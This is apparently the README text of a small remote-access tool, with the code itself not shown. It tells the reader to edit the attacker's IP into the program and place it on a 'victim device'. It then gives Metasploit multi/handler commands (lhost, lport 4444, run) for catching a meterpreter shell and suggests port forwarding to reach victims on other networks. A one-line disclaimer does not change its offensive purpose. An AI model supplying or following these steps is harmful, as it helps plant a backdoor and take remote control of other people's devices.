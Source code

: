 Remember to import all modules and change the attacking machines ip in the code before putting it on the victim device.

also no illegal shit
also forgot to mention you can connect using meterpreter run the following commands once you opened it in kali:

use exploit/multi/handler
set lhost (your attacking devices local ip goes here, without any brackets)
set lport 4444
run


also this only runs on local networks, though it can be done through different networks if you make uses of things such as port fowarding
